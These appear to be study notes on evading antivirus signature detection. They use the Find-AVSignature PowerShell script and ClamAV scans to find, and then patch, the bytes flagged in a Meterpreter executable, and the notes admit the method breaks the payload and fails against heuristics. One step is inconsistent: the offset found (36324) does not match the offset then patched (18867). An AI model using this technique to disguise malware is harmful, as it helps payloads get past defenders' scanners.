




## Locating Signatures in Files

There are two primary approaches to evade signature based detection which is to determine the exact bytes that are triggering detection:
1. The most complicated approach is to reverse-engineering the antivirus scanning engine and signature database to discover the actual signatures.
2. Split the binary into multiple pieces and perform an on-demand scan of sequentially smaller pieces until the exact bytes are found.

We'll be using the 2nd method, for which we'll use the [_Find-AVSignature_](http://obscuresecurity.blogspot.com/2012/12/finding-simple-av-signatures-with.html) powershell script for the task.

We start by importing the script:
```Powershell
Import-Module .\Find-AVSignature.ps1
```

We'll provide the script with arguments and the path to our shell:
```Powershell
Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
```

We then start a clamAV scan on the output folder and we get the following output:



The first signature was detected in the third file, somewhere between offset 30000 and 40000.

We'll run _Find-AVSignature_ again to split the meterpreter executable with 1000 byte intervals, but only from offset 30000 to 40000.:
```Powershell
Find-AVSignature -StartByte 30000 -EndByte 40000 -Interval 1000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest2 -Verbose -Force
```

 And scan the segments again:
 


 These results indicate that the offending bytes are between offsets 36000 and 37000.
 For the next run, we'll narrow down the interval to 100:
 ```Powershell
 Find-AVSignature -StartByte 36000 -EndByte 37000 -Interval 100 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest3 -Verbose -Force
 ```

 Scanning the segments again:

 

 The output reveals the offending byte is between 36300 and 36400

 Repeating this process again and again, we find the byte to be 36324.

 We'll use PowerShell_ISE to read the bytes of the Meterpreter executable, zero out the byte at offset 18867, and write the modified executable to a new file, met_mod.exe:
 ```Powershell
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```

we'll repeat the split and scan, this time on the modified executable.
This shows that the modification worked:
![[]]

Following this process, we find 3 bytes that are being detected:
1. 18867
2. 18987
3. 73801

Changing these to 0 with the following code:
```Powershell
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
$bytes[18987] = 0
$bytes[73801] = 0xFF
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```
note: changing the final byte to 0x00 does not produce a clean scan, but changing it to 0xFF does.


Even though we're able to get a clean scan, we run into some problems:
1.  We have destroyed some functionality inside our executable as we have likely changed something in either the shellcode itself or the part of the executable that runs it. There is only one option to rectify this problem and that is to reverse engineer exactly what those three bytes do and attempt to modify them in such a way that the executable still works which is very tedious.
2. Even though we are bypassing ClamAV, we may not be bypassing other antivirus products.

This technique works in theory and it sounds relatively straight-forward, but is not very effective in the real world, especially considering the fact that we would still have to contend with heuristic scanning.